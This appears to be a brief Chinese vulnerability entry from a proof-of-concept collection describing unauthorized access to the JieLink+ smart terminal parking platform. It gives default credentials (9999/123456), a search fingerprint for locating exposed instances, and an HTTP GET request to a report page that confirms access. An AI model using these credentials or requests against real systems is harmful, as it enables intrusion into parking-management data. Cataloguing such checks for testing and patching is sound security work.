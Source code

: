 ﻿# JieLink+智能终端操作平台 未授权访问1

> 更新时间：2024-01-19

> 漏洞编号：

> 漏洞说明：账号：9999 密码：123456

> 漏洞特征：title=="JieLink+智能终端操作平台"

> 验证脚本：HTTP

```
GET /report/ParkInsideRecordEdit/Index HTTP/1.1
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：


> 验证文件来源：JieLink+智能终端操作平台 未授权访问1.poc
